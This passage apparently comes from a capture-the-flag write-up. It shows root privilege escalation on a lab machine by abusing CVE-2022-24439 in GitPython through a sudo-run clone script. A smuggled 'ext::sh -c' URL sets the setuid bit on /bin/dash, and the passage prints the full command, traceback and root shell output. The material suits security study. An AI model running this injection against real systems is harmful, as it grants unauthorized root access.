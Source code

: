 It is vulnerable to [CVE-2022-24439](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858):

```console
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/dash'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c chmod% u+s% /bin/dash new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:/opt/internal_apps/clone_changes$ ls -l /bin/dash
-rwsr-xr-x 1 root root 125688 Mar 23  2022 /bin/dash
prod@editorial:/opt/internal_apps/clone_changes$ /bin/dash -p
# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
# cat /root/root.txt
0565e67...
```
